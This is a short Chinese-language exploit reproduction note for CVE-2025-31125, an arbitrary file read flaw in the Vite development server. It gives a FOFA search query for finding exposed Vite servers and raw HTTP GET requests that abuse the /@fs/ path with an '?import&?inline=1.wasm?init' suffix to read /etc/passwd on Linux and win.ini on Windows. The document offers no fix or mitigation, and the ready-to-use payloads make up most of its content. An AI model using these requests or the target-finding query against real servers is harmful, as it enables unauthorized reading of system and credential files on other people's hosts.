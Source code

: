 ## 漏洞描述

Vite是Vite开源的一种新型的前端构建工具。Vite vite-project接口存在任意文件读取漏洞。

CVE编号:CVE-2025-31125

CNNVD编号:

CNVD编号:

## 3.影响版本

Vite框架

![Vite import存在任意文件读取漏洞](Vite%20import%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9ECVE-2025-31125.assets/640.png)Vite import存在任意文件读取漏洞

## 4.fofa查询语句

body="/@vite/client"

## 5.漏洞复现

漏洞链接：https://xx.xx.xx.xx/@fs/etc/passwd?import&?inline=1.wasm?init

漏洞数据包：
linux下：

```
GET /@fs/etc/passwd?import&?inline=1.wasm?init HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```

![图片](Vite%20import%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9ECVE-2025-31125.assets/640-1744946021397-1.jpeg)

window下

```
GET /@fs/C://windows/win.ini?import&?inline=1.wasm?init HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```

## 